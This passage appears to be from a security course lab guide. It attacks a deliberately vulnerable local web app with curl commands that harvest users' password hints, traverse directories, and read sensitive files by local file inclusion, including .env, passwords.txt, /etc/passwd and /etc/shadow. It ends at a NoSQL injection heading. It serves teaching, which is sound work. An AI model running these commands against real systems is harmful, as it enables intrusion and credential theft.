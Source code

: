 #### Password Hints

```bash
# Get password hints for each user
for user in admin john sarah dbadmin test; do
  echo "User: $user"
  curl -s http://localhost:8081/api/auth/hint/$user | jq -r '.hint'
  echo ""
done
```

### 2.3 File Service Enumeration (Cours 08 - LFI/RFI)

#### Directory Listing

```bash
# List files in document directory
curl -s http://localhost:8082/api/files/list | jq '.'

# List other directories (Path traversal)
curl -s "http://localhost:8082/api/files/list?dir=/etc" | jq '.'
curl -s "http://localhost:8082/api/files/list?dir=/app" | jq '.'
```

#### Local File Inclusion (LFI)

```bash
# Read sensitive files from document directory
curl -s "http://localhost:8082/api/files/read?file=/app/documents/passwords.txt" | jq -r '.content'

curl -s "http://localhost:8082/api/files/read?file=/app/documents/.env" | jq -r '.content'

curl -s "http://localhost:8082/api/files/read?file=/app/documents/config.txt" | jq -r '.content'

# Path traversal to read system files
curl -s "http://localhost:8082/api/files/read?file=/etc/passwd" | jq -r '.content'

curl -s "http://localhost:8082/api/files/read?file=/etc/shadow" | jq -r '.content' 2>/dev/null

# Read application source code
curl -s "http://localhost:8082/api/files/read?file=/app/main" | jq -r '.content' | strings
```

#### Check Backup Files

```bash
# Enumerate available backups
curl -s http://localhost:8082/api/files/backup | jq '.'
```

### 2.4 NoSQL Injection Testing (Cours 08)

#### Basic Query
